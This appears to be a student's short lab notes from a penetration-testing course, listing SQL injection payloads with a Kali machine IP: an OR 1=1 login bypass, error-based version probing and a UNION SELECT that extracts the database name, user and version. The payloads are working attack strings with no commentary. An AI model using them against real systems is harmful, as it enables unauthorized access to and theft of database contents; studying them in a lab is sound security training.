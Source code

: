 ```yaml
---
IP_KALI: 192.168.45.155
---
```

```
offsec' OR 1=1 -- //
```

```
' or 1=1 in (select @@version) -- //
```

```
' OR 1=1 in (SELECT * FROM users) -- //
```

4 Columns

```
' UNION SELECT null, database(), user(), @@version  -- //
```